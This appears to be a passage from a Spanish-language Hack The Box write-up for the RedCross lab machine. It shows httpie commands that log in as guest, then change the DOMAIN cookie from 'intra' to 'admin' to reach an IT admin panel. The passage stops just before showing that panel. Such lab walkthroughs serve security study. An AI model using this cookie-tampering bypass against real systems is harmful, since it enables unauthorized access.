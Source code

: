 ```
[0 entries]
+----+------+-------+---------+
| id | body | cback | subject |
+----+------+-------+---------+
+----+------+-------+---------+

```

Bastante información, de la cual tenemos hashes bcrypt (tardaremos mucho para romperlas) y varias notas del subdomain admin que descubrimos anteriormente. No pudimos conseguir ninguna credencial mas que guest, pero había un detalle interesante sobre nuestra cookie que devolvía intra al ingresar, la variable **DOMAIN**. Probemos si el manejo de autenticación esta roto.

# Login on admin

También al leer la descripción del problema que reportan los usuarios detectaremos que se trata de un XSS. En este caso seguiremos el camino de manejo de cookies, gracias un *hit* de un mago.

Primero obtengamos una cookie de intra:

```
xbytemx@laptop:~/htb/redcross$ http --verify no -f POST "https://intra.redcross.htb/pages/actions.php" user=guest pass=guest submit=Login action=login

<omitiendo>

PHPSESSID=5a0o7947pk2gb11m6acglej5i6; LANG=EN_US; SINCE=1555227715; LIMIT=10; DOMAIN=intra;
```

Ahora cambiemos donde diga intra por admin y preparemos una petición GET:

```
xbytemx@laptop:~/htb/redcross$ http --verify no "https://admin.redcross.htb" "Cookie:PHPSESSID=5a0o7947pk2gb11m6acglej5i6; LANG=EN_US; SINCE=1555227715; LIMIT=10; DOMAIN=admin;"
HTTP/1.1 302 Found
Cache-Control: no-store, no-cache, must-revalidate
Connection: Keep-Alive
Content-Length: 466
Content-Type: text/html; charset=UTF-8
Keep-Alive: timeout=5, max=100
Location: /?page=cpanel
Pragma: no-cache
Server: Apache/2.4.25 (Debian)

<center><a href=/><table border=0 width=95%><tr><td><table border=0><tr><td width=10% rowspan=2><img src='/images/it.svg' width='100%'></td><td valign='bottom'><h2>IT Admin panel</h2></td></tr><tr><td valign='top'><h3>Authorized personnel only</h3></td></tr></table></td><td width=100px><p style='font-size:75%'>[[guest]]</p><form action='/pages/actions.php' method='POST'><input type='submit' name='action' value='end session'></form></td></tr></table></a></center>

```

El portal que tenemos y debemos ver es el siguiente:
